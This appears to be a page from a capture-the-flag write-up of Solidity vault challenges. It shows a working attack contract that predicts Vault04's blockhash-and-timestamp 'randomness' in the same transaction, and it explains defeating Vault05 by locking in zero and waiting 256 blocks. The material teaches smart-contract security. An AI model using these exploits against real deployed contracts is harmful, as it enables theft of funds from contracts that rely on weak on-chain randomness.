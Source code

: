 \documentclass[12pt]{article}
\begin{document}
\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
    // SPDX-License-Identifier: MIT
    pragma solidity 0.8.28;
    
    interface IVault04 {
        function breachVault(uint256 _password) external returns (bool);
    }
    
    contract Vault04Attack {
        IVault04 public vault;
    
        constructor(address _vaultAddress) {
            vault = IVault04(_vaultAddress);
        }
    
        // Function to perform the attack
        function attack() external returns (bool) {
            // Compute the guess using on-chain values in the same transaction.
            uint256 guess = uint256(
                keccak256(
                    abi.encodePacked(blockhash(block.number - 1), block.timestamp)
                )
            ) % 100;
            
            return vault.breachVault(guess);
        }
    }
\end{lstlisting}
\end{minipage}

\noindent
Since the guess is derived from predictable on-chain data and is used within the same transaction, the attack works by ensuring the \texttt{blockhash} and \texttt{timestamp} remain valid when the vault processes the request.

\subsection*{Vault05: Fortune Teller}

To breach \texttt{Vault05}, you need to use the \texttt{blockhash} of the block when the guess was locked in, but only after the next block has been mined. First, you lock the guess using \texttt{lockInGuess}. Then, you must wait for the next block and calculate the random number using \texttt{blockhash(lockInBlockNumber)}. The issue is that at the moment of locking in the password, we do not know the blockhash yet. We can only access the blockhash of previous blocks. However, the \texttt{blockhash} function only returns the blockhash for the last 256 blocks; otherwise, it returns zero (see \href{https://docs.soliditylang.org/en/latest/units-and-global-variables.html}{Solidity documentation}). Therefore, we simply lock in a 0 and mine 256 blocks before calling the \texttt{breachVault} function.
\end{document}
